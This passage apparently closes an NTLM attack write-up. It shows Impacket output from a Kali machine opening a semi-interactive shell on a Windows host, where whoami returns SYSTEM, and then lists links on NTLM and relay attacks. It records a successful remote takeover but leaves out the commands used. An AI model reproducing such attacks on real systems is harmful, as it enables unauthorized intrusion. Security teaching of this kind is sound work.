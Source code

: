 ```
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
``` 



### Further reading:

* [Wikipedia: NTLM](https://de.wikipedia.org/wiki/NTLM)
* [Understanding NTLM Authentication and NTLM Relay Attacks](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/)
* [NTLM Fully Explained for Security Professionals](https://thievi.sh/blog/ntlm-fully-explained-for-security-professionals/)




